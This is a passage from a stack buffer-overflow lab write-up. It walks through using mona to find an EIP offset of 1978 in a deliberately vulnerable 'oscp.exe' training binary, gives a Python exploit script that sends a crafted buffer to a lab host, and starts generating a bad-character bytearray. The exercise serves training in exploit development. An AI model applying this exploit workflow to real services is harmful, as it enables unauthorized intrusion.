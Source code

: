 If we did everything correctly, the oscp.exe file crashes, we now need to use mona again to find the EIP Offset:

```
!mona findmsp -distance 2200
```

Now if we take a closer look to the log panel we get in mona, we can see this:

![](images/Pasted%20image%2020250529122501.png)

As seen, I got my offset:

```
1978
```

Knowing this, we now need to modify `exploit.py` again:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1"
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
    payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

We need to restart `oscp.exe` again and run it:

![](images/Pasted%20image%2020250529123058.png)

As seen, we got `Access Violation when executing [42424242]`, this means everything's going right by now, now, we need to use mona again to generate the base bytearray:

```
!mona bytearray -b "\x00"
```
